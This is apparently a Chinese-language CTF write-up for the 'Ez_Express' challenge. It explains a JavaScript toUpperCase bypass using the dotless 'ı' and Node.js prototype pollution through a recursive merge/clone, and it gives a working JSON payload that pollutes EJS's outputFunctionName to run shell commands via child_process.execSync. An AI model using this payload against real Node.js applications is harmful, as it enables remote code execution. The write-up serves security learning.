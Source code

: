 # [GYCTF2020]Ez_Express

## 知识点

`javascript大小写绕过`

`nodejs原型链污染`

## 解题

进入首页给了一个登录框，要求登录大写为`ADMIN`，猜测使用`javascript`大小写转换特性绕过，[参考原理](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)

> "ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'
>
> "K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'

![](./img/[GYCTF2020]Ez_Express-1.png)

则使用`admın`注册登录，扫描目录时发现了`www.zip`，进行代码审计发现为`js`代码

思路：`js`审计如果看见`merge`，`clone`函数，可以往原型链污染靠，跟进找一下关键的函数，找污染点

切记一定要让其`__proto__`解析为一个键名

总结：

1. 原型链污染属于前端漏洞应用，基本上需要源码审计功力来进行解决；找到`merge()`,`clone()`只是确定漏洞的开始
2. 进行审计需要以达成RCE为主要目的。通常`exec`, `return`等等都是值得注意的关键字。
3. 题目基本是以弹shell为最终目的。目前来看很多`Node.js`传统弹`shell`方式并不适用`wget`,`curl`,以及我两道题都用到的`nc`比较适用。

查看源代码

```js
const merge = (a, b) => {
  for (var attr in b) {
    if (isObject(a[attr]) && isObject(b[attr])) {
      merge(a[attr], b[attr]);
    } else {
      a[attr] = b[attr];
    }
  }
  return a
}
const clone = (a) => {
  return merge({}, a);
}
```

在`/route/index.js`中用了`merge()`和`clone()`，发现使用原型链，往下找`clone()`的位置

```js
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
```

查看登录条件

```js
router.post('/login', function (req, res) {
  if(req.body.Submit=="register"){
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
```

就可以使用`admın`注册登录，登录后如下图所示

![](./img/[GYCTF2020]Ez_Express-2.png)

找一下可以污染后显示的参数，发现可以污染`outputFunctionName`

```js
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
```

使用`payload`污染参数，抓包后修改`Content-Type`为`application/json`,`POST传参`

```
{"lua":"a","__proto__":{"outputFunctionName":"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}
```

然后进入`/info`获取`flag`

![](./img/[GYCTF2020]Ez_Express-3.png)

![](./img/[GYCTF2020]Ez_Express-4.png)

![](./img/[GYCTF2020]Ez_Express-5.png)